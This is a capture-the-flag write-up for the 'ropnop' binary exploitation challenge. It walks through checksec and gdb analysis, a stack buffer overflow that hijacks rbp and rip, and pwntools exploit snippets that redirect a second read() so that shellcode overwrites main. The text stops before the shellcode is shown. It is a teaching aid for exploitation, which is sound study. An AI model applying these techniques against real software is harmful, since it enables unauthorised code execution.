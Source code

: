 # ROPNOP
## General information
### Analyzing the binary
First we use the file command to get some information about the binary.

```
root@dab66e65c349:/pwd/ropnop# file ropnop
ropnop: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, with debug_info, not stripped
```

To see what security features are enabled we run checksec.

```
root@dab66e65c349:/pwd/ropnop# checksec ropnop
[*] '/pwd/ropnop/ropnop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Here we directly notice there are no stack-canarys. This allows easy an bufferoverflow, because we don't need to leak values.

### Analyzing the code
Now let's take a look at the provided source code. After the setup we call `ropnop()`. The function prints the start and end of the code segment, later we will use this to defeat ASLR.  Then `mprotect` is called.

`mprotect(start, end-start, PROT_READ|PROT_WRITE|PROT_EXEC);`

This changes the permissions for the code segment to read/write/execute. This is important because if we can write to this segment we can get arbitrary code execution and thereby a shell.
`ropnop()` then uses a while-loop to replace all return instrutions(*op-code: 0xc3*) with a nop(*op-code: 0x90*). However you have to notice that the instruction 

`<+112>:	cmp    ecx, 0xc3`

contains the byte 0xc3 in its opcode and when the while-loop runs over this instruction it gets replaced with

`<+112>:	cmp    ecx,0x90`

Now the function does nothing anymore, because it only replaces nops with nops. This means that only return instruction before the ropnop function are replaced.


Back in main we call read:

```
int* buffer = (int*)&buffer;
read(0, buffer, 0x1337);
```

This enables a buffer overflow, because there is only place for one pointer on the stack, but we can write up to 0x1337 bytes. That way we get control over rbp and rip. You might also notice the function gadget_shop which is never called and contains so useful gadgets for a ROP attack. However gadget_shop is overwritten by ropnop and contains no more return instruction meaning it is now useless. This doesn't really matter because the final exploit needs no specific ROP-gadgets.
## The idea
The buffer overflow allows control over rip, rbp and the stack. If the stack would be executable we could place shell code here and win the challenge, but this is not possible since NX is enabled. We need to overwrite the code segment because it is the only one that has write and execute permissions. To do this we control rip in such a way that we jump back into main and call read again. The following instruction in main set up the read call:
```
<+25>:	xor   edi,edi
<+27>:	lea   rax,[rbp-0x10]
<+31>:	mov   QWORD PTR [rbp-0x10],rax
<+35>:	mov   rax,QWORD PTR [rbp-0x10]
<+39>:	mov   rsi,rax
<+42>:	mov   edx,0x1337
<+47>:	call  0x555555555040 <read@plt>
```
The rax register is the address we will write to and if we can control it we can overwrite code. As you can see at `<+27>` rax is loaded from rbp-0x10 and we already control rbp.

We can use your second buffer overflow that we get because we jump here to overwrite the last instructions of main with shell code. After we return from read back into main our shell code that sits at the end of main will be executed.
## The exploit
To automate the process of sending and receiving data we can use the python library [pwn-tools](http://docs.pwntools.com/en/stable/). We get the process and store it in the variable p.
```
p = remote("hax1.allesctf.net", 9300)
```
We read the output from the printf in ropnop and extract the start address from the string.
```
recv_buf = p.recv(64).split()

start = int(recv_buf[3], 16)
end = int(recv_buf[-1], 16)
```
We can now use this as a base to calculate other addresses from and defeat ASLR. The first buffer overflow consists of a 16 bytes padding to fill up the stack untill rbp, the next 8 bytes will become the new rbp. The new rbp should point to after the read call in main plus 0x10, because rax will point here after we subtract 0x10. Then the second read call will overwrite the code here with our shell code.

The last 8 bytes from the first bufferoverflow will controll rip. We use this to redirct code execution back into main befor the read call.

From the gdb disassemly of main we can see the offsets for the diffrent instructions.
````
   0x00000000000012a0 <+0>:	push   rbp
   0x00000000000012a1 <+1>:	mov    rbp,rsp
   0x00000000000012a4 <+4>:	sub    rsp,0x20
   0x00000000000012a8 <+8>:	mov    DWORD PTR [rbp-0x4],0x0
   0x00000000000012af <+15>:	call   0x1170 <init_buffering>
   0x00000000000012b4 <+20>:	call   0x1200 <ropnop>
   0x00000000000012b9 <+25>:	xor    edi,edi
   0x00000000000012bb <+27>:	lea    rax,[rbp-0x10]
   0x00000000000012bf <+31>:	mov    QWORD PTR [rbp-0x10],rax
   0x00000000000012c3 <+35>:	mov    rax,QWORD PTR [rbp-0x10]
   0x00000000000012c7 <+39>:	mov    rsi,rax
   0x00000000000012ca <+42>:	mov    edx,0x1337
   0x00000000000012cf <+47>:	call   0x1040 <read@plt>
   0x00000000000012d4 <+52>:	xor    ecx,ecx
   0x00000000000012d6 <+54>:	mov    QWORD PTR [rbp-0x18],rax
   0x00000000000012da <+58>:	mov    eax,ecx
   0x00000000000012dc <+60>:	add    rsp,0x20
   0x00000000000012e0 <+64>:	pop    rbp
   0x00000000000012e1 <+65>:	ret
````
So we compute the new rbp value like `rbp = start + 0x12d6 + 0x10` where start is the begining of the code segment. This will cause our 2. read to overwrite main starting at `main<+54>`.

Now we calculate rip so the first read returns to `main<+25>` instead of `main<+52>` to call read again. In code it looks like this `rip = start + 0x12b9`

We use the struct module to turn the integers rip and rbp to bytearrays and send the first input in the expoit script.
````
p.send(padding + rbp + rip)
````

Now we call read again from main, but this time our arguments look like this.

````
 ► 0x5635babeb2cf <main+47>    call   read@plt <0x5635babeb040>
        fd: 0x0
        buf: 0x5635babeb2d6 (main+54) ◂— 0x5635babeb2d6
        nbytes: 0x1337
````

